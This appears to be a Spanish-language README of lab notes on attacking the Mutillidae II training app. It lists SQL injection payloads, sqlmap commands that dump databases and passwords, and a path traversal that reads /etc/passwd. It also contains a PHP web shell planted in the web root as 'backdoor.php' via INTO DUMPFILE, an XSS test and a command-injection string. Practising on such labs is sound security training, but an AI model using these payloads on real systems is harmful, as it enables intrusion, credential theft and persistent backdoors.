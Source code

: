 # Explotación y hacking de vulnerabilidades en Hosts

## Instalación VM Ubuntu

[Ubuntu](https://ubuntu.com/download/desktop)

## Instalar Mutillidae II

[Mutillidae](https://github.com/webpwnized/mutillidae)

## Burp Suite

...

 - scraping:
skipfish -YO -o path+URL

## SQL Injection

'
' OR 1=1 -- 
' union select null,database(),null,null,null,null --
' union select null,load_file('/var/lib/mysql-files.ficheroimportante.txt'),null,null,null,null --
' union select null,sleep(20),null,null,null,null --
santiago' and 'h'='h
santiago' and 'h'='e
santiago' and substring(current_user(),1,1)='a
santiago' and sleep(10) and substring(current_user(),1,1)='a


### sqlmap
 - Guada la petición de BurpSuite.
 
sqlmap --flush-session -r Desktop/request.burp
 
 - Este comando saca el usuario actual de la basa de datos usando blind SQL injection y el parámetro username que es vulnerable. 

sqlmap -r Desktop/request.burp --ignore-redirects --technique B -p username -current-user

 - Otro más centrado, para tener la contraseña.

sqlmap -r Desktop/request.burp --ignore-redirects --batch --technique B -p username -U root@localhost --passwords

sqlmap -r Desktop/request.burp --ignore-redirects --batch --dbs -v 3

sqlmap -r Desktop/request.burp --ignore-redirects --batch --dump -D mutillidae

sqlmap -r Desktop/request.burp --ignore-redirects --batch --dump -T accounts -D mutillidae

## Path Traversal

 - Ejemplo:
 http://192.168.16.133/mutillidae/index.php?page=../../../../../../../../etc/passwd

 ## WebShells

 - Código:
 ```
 </php echo passthru($_GET['cmd']); ?>
 ```

 - Ejemplo:

 ```
' union select null,null,null,null,null,null,'<?phpif(!empty($_POST['cmd'])){$cmd=shell_exec($_POST['cmd']);}?><!DOCTYPEhtml><htmllang="en"><head><metacharset="utf-8"><metahttp-equiv="X-UA-Compatible"content="IE=edge"><metaname="viewport"content="width=device-width,initial-scale=1"><title>WebShell</title><style>*{-webkit-box-sizing:border-box;box-sizing:border-box;}body{font-family:sans-serif;color:rgba(0,0,0,.75);}main{margin:auto;max-width:850px;}pre,input,button{padding:10px;border-radius:5px;background-color:#efefef;}label{display:block;}input{width:100%;background-color:#efefef;border:2pxsolidtransparent;}input:focus{outline:none;background:transparent;border:2pxsolid#e6e6e6;}button{border:none;cursor:pointer;margin-left:5px;}button:hover{background-color:#e6e6e6;}.form-group{display:-webkit-box;display:-ms-flexbox;display:flex;padding:15px0;}</style></head><body><main><h1>WebShell</h1><h2>Executeacommand</h2><formmethod="post"><labelfor="cmd"><strong>Command</strong></label><divclass="form-group"><inputtype="text"name="cmd"id="cmd"value="<?=htmlspecialchars($_POST['cmd'],ENT_QUOTES,'UTF-8')?>"onfocus="this.setSelectionRange(this.value.length,this.value.length);"autofocusrequired><buttontype="submit">Execute</button></div></form><?phpif($_SERVER['REQUEST_METHOD']==='POST'):?><h2>Output</h2><?phpif(isset($cmd)):?><pre><?=htmlspecialchars($cmd,ENT_QUOTES,'UTF-8')?></pre><?phpelse:?><pre><small>Noresult.</small></pre><?phpendif;?><?phpendif;?></main></body></html>' INTO DUMPFILE '../../../../../../../var/www/html/mutillidae/backdoor.php
 ```

## Unrestricted File Upload

Subir un archivo con la webShell y luego con PathTraversal accede a el.

## HTML Injection y Cross-Site-Scripting (XSS)

```
<script> alert("vulnerable XSS")</script>
```

https://brightsec.com/blog/xss-attack/

https://owasp.org/www-community/attacks/xss/

## CSRF

https://owasp.org/www-community/attacks/csrf

## XSStrike

[XSStrike](https://github.com/s0md3v/XSStrike)

```
sudo apt-get install pip
git clone git@github.com:s0md3v/XSStrike.git
cd XSStrike
pip3 install -r requirements.txt
python3 xsstrike.py -h
sudo python3 xsstrike -u  "http://192.168.16.133/mutillidae/index.php?page=user-info.php" --timeout 50
```

## Command injection

test; cat /etc/passwd


## BurpSuite tools docs
https://portswigger.net/burp/documentation/desktop/tools






